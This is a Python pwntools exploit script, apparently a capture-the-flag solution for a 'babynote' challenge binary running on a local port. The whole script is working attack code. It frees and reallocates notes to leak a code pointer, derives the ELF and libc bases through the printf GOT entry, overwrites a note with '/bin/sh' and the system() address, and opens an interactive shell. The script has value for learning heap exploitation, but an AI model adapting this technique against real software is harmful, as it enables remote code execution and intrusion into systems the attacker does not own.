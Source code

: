 ```python
def exit():
	io.recvuntil("Your choice :")
	io.sendline('5')

#io = process("./babynote")
io = remote("127.0.0.1",40004)

add('100',"111\n")
add('100',"222\n")
delete('0')
delete('1')
add('12',"aaaaaaa\n")
v_func = printnote('2')
elf_base = v_func - 0x98a
printf_got = elf_base + printf_got

print "v_func: " + hex(v_func)
print "elf_base: " + hex(elf_base)
print "printf_got: " + hex(printf_got)

edit('2',p32(0xc) + p32(printf_got) + p32(v_func))
printf_addr = printnote('0',1)
libc_base = printf_addr - libc_printf
system_addr = libc_base + libc_system

print "libc_base: " + hex(libc_base)
print "printf: " + hex(printf_addr)
print "system: " + hex(system_addr)

edit('2',"/bin/sh\x00" + p32(system_addr))
io.recvuntil("Your choice :")
io.sendline('3')	
io.recvuntil("Input the index:")
io.sendline("0")
io.interactive()
io.close()
```
